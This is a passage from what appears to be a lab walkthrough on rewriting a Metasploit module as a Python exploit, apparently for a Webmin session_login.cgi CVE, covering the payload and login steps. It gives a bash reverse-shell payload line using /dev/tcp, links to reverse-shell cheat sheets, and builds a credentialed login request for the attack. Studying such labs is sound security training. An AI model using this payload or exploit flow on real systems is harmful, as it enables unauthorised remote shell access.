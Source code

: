 Similar to the metasploit module, we can dissect our exploit into three main parts; initialize payload, login, exploit.

### Initialize Payload

The most important task here is to enable python to execute the system shell _/bin/sh_ or _/bin/bash_. Python has numerous ways to execute system programs natively but remember, we have the ability of arbitrary command execution, meaning that we can use whatever command (not just python code) necessary to establish a reverse shell including with Python, Bash, Ruby, netcat, PHP, socat and a plethora of other commands available to us.\


We can examine different examples and methods applicable to our script. You can view reverse shell examples in python and other languages/commands in the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) repository as well as [gtfobins](https://gtfobins.github.io/#+reverse%20shell) and [One-Lin3r](https://github.com/D4Vinci/One-Lin3r). I encourage you to experiment with the final script and test different reverse shells to see what does and doesn't work.\


As discussed in more detail below, the simplest way to open a connection to the attacker and send the shell will be to run a `bash` command executing a reverse shell.

Our initialization will be:

`payload = f"bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'"`

* [x] payload type: cmd or system shell.

### Login

In some cases, especially when researching, it is necessary to check if the target is vulnerable to the exploit by sending a test command like the author of the metasploit module included. For the purposes of this room because we already confirmed the CVE, we can condense the steps to login once, return if 302 status code and return the `sid cookie` to use in the payload POST request. The request should be fairly simple and we can go down our list item by item, using the [`requests`](https://requests.readthedocs.io/en/master/user/quickstart/) library.

* **the login page URI data (credentials, receiving port and login page file)**
* **POST request sending the URI data**
* **format the cookie**
* **verify HTTP response code and the session id is not empty**, print statement to verify success

POST requests in python can send data to a server via a dictionary, list of tuples, bytes or a file object. We only need three items to send as data, the page, username, and password. From the developer tools we know the exact labels of each of these; page, user, and pass.\
`data = {'page' : "%2F", 'user' : "user1", 'pass' : "1user"}`

We can include a variable with the file to target using [f-strings](https://www.geeksforgeeks.org/formatted-string-literals-f-strings-python/). We know the receiving port is the default port 80 so we don't need to include it manually.

`url = f"http://{targetIP}/session_login.cgi"`

Now we have all of the information we need to login via POST request. We'll be sending the credentials, the test cookie with its value, as well as ignoring TLS and site redirects.

